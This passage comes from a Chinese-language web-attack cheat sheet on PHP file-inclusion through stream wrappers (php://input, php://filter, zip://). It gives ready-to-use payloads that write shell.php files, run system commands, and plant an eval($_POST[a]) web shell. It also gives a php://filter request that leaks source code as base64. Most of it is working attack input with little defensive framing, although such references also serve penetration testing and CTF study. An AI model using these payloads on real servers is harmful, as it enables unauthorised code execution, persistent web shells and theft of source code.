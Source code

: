 **php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=On`

**实例**
```
?file=php://input
[POST DATA] <?php phpinfo(); ?>

页面中会显示phpinfo信息
```
**利用实例**

|     简介     |                           POST DATA                           |
|:------------ |:------------------------------------------------------------- |
| 增加一句话   | `<?php fputs(fopen("shell.php","a"),"<?php phpinfo();?>") ?>` |
| 增加文件     | `<?php fputs(fopen("shell.php","w"),"<?php phpinfo();?>") ?>` |
| 执行系统命令 | `<?php system('ipconfig') ?>`                                 |

**注意**
在尝试的时候发现了一个问题，当写入`<?php fputs(fopen("shells.php","w"),"<?php eval($_GET[a]) ?>")  ?>`时，`$_GET[a]`会被执行(其他一样)，如果在url中没有a参数，则写入的内容会是`<?php eval() ?>`，后来想到一种方式，既然`$_GET[a]`会被执行，那么我就在构造一个a参数，如下
```
http://localhost:8088/shell.php?file=php://input&a=$_POST[a]
[POST DATA]
<?php fputs(fopen("shells.php","w"),"<?php eval($_GET[a]) ?>")  ?>

最终写入的结果会是 <?php eval($_POST[a]) ?>
```


<br>

### php://filter
php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作`php`文件执行。所以我们一般对其进行编码，让其不执行。从而导致 `任意文件读取`。

**php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=Off/On`

**实例**
```
?file=php://filter/read=convert.base64-encode/resource=phpinfo.php

页面中会显示经过 BASE64 编码的字符串，解码后可以得到 phpinfo.php 的源码
```

<br>

### zip://
zip://可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作`php`文件执行。从而实现`任意代码执行`。

**php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=Off/On`
 - `php版本 >= 5.2`
